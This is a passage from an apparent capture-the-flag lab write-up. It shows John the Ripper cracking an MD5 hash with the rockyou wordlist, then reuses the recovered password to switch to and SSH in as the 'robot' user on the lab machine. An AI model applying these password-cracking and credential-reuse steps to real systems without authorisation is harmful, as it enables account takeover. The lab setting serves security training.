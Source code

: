 ```bash
Warning: detected hash type "LM", but the string is also recognized as "ZipMonster"
Use the "--format=ZipMonster" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 2 password hashes with no different salts (LM [DES 128/128 SSE2])
Warning: poor OpenMP scalability for this hash type, consider --fork=3
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2025-08-03 13:22) 0g/s 8173Kp/s 8173Kc/s 16347KC/s !WHOA!1..*7¡VA
Session completed.
```

Luckily for us, the hash format is told in the file’s name: MD5 hash.

Let’s try to crack it using the MD5 format specifier (`--format=Raw-MD5`) to John.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2025-08-03 13:21) 50.00g/s 2025Kp/s 2025Kc/s 2025KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Well, that was easy! The password we managed to retrieve is `abcdefghijklmnopqrstuvwxyz`.

We can try to connect as the `robot` user to check if it’s his password.

```bash
(remote) daemon@ip-10-10-135-61:/home/robot$ su robot
Password: 
\[\](remote)\[\] \[\]robot@ip-10-10-135-61\[\]:\[\]/home/robot\[\]$
```

It worked again! We can now interact with the target machine as the user `robot`.

```bash
ssh robot@target 
robot@target's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Nov 13 23:50:42 2015
$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```
